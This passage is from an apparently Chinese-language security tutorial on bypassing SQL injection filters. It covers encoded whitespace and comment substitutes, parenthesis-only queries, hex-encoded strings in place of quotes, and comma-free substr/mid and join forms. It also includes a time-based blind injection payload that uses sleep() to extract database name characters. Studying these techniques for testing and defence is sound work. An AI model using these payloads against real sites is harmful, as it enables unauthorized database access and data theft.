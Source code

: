`%20 %09 %0a %0b %0c %0d %a0 %00 /*\*/ /*!\*/`

最基本的绕过方法，用注释替换空格：

/\* 注释 \*/

![image-20240717002711818](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-cc854b648fe594f466300a0dddda391ba03f9259.png)

使用浮点数：

```php
select \* from users where id=8E0union select 1,2,3

select \* from users where id=8.0 select 1,2,3

```

#### 第二种方法:括号绕过空格

如果空格被过滤，括号没有被过滤，可以用括号绕过。

在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

`select(user())from dual where(1=1)and(2=2)`

这种过滤方法常常用于time based盲注,例如：

`?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23`

（from for属于逗号绕过下面会有）

上面的方法既没有逗号也没有空格。猜解database()第一个字符ascii码是否为109，若是则加载延时。

#### 第三种方法:引号绕过（使用十六进制）跟上面十六进制绕过差不多

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

`select column\_name from information\_schema.tables where table\_name=“users”`

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。

users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

`select column\_name from information\_schema.tables where table\_name=0x7573657273`

#### 第四种方法:逗号绕过（使用from或者offset）

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

```php
select substr(database() from 1 for 1);

select mid(database() from 1 for 1);
```

使用join：

```php
union select 1,2 #等价于

union select \* from (select 1)a join (select 2)b
```

